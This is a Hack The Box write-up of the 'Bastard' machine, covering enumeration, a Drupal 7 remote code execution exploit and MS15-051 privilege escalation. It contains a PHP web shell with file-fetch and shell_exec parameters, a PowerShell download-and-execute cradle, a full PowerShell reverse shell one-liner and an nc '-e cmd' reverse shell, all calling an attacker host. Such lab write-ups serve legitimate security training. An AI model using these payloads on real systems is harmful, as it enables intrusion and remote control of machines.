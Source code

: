 ![logo](/logo.png)

# [Bastard- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 18 Mar 2017 as the seventh machine on HTB,Bastard created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bastard 10.10.10.9                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 20:56 EAT
Nmap scan report for 10.10.10.9
Host is up (0.38s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.55 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Microsoft IIS httpd 7.5 `and its running an `Drupal 7`. 

port[80]-  http
port[135]-msrpc
port[49154]-msrpc

looking at the port 80 we find a landing page [http://10.10.10.9](http://10.10.10.9)

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/bastard.png)so we try to look for the version of the drupal but on the nmap we see that their is  a changelog so we try to see what we can find in the changelog

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/changelog.png)

now searching for the exploit using searchsploit reveles that drupal 7.x can be a potential exploit of a `Remote code Execution` 

```sh
searchsploit Drupal 7.x
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/searchsploit.png)

lets examine the exploit to see what it does.looking at the exploit it trying to abuse the `PHP Seriallization` . The exploit requires a few small modifications to run successfully. There is a syntax error on line 16 as well as line 71. The variables that must be modified are `url`, `endpoint_path`,`filename` and `data`.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/exploit.png)
so we have to modify the code a bit best on the gobuser i ran earlier i found out something intresting which is a endpoint which is `rest`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/rest.png)

the change would be like this just also to add some interactivity on the shell

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/modified.png)

```sh
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<< 'EOD'
<?php 
  if (isset($_REQUEST['fupload'])) {
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.9:8000/" .$_REQUEST['fupload']));
   };
  if (isset($_REQUEST['fexec'])) {
   echo "<pre>" .shell_exec($_REQUEST['fexec']) . "<pre>";
  };
?>
EOD;


$file = [
    'filename' => 'leshack.php',
    'data' => $phpCode

```

now we run the script to execute the exploit

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/drupal.png)

so when follow the [http://10.10.10.9/leshack.php](http://10.10.10.9/leshack.php) and execute something from the browser we get a some remote execution

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/remote.png)

running the exploit will create the specified PHP file as well as generate `user.json` and
`session.json` locally. The session file contains valid cookie data for the Drupal `admin user`, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

# Privillage Escalation

so we check the  `systeminfo` to see if we can get any information

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/systeminfo.png)

now we first have to get a good shell so what we do after getting the remote code execution is to be able to get a good shell 

```sh
http://10.10.10.9/leshack.php?fexec=echo%20IEX%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.9:8000/bastard.ps1%27)%20|%20powershell%20-noprofile%20-
```

the exploit we just replicate from the prevoius box optimum

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

we set a listner to listen for the `bastard.ps1` 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/pythonserver.png)

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/reverseshell.png)

As the target is a fresh install of `Windows Server 2008`, it is fairly easy to exploit. No service
packs or hotfixes have been installed.so we run  the sherlock script just like the prevous box to see if we can find something that is vulnerable

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/sherlok1.png)

This appears to be vulnerable
![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/sherlork2.png)

A bit of research reveals quite a few potential exploits,however the most reliable is `MS15-051`. [Exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)  and also some search on searchsploit reveels more infomation.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/ms15.png)
it revel some compiled 64.vulnerability that can be uploaded to the machine to be runned.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/ms152.png)


so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
http://10.10.10.9/leshack.php?fupload=Ms15.exe&fexec=%20Ms15.exe%20whoami
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/ms153.png)

checking at the shell we see it has uploaded 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/ms154.png)

now when we go and run we get a confirmation

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/whoami.png)

since we can execute some command using that we need a permanet shell that is easy to use so what we can do is to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) we just upload it the way we uploaded the `Ms15.exe`

and by doing this from the shell 

```sh
./Ms15.exe "nc64.exe -e cmd 10.10.14.9 1338"
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/shellcode.png)

or this from the webrowser

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/webbrowser.png)

we get a shell

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/executableshell.png)

Then now we obtain the `root and user flag`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Medium/Bastard/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------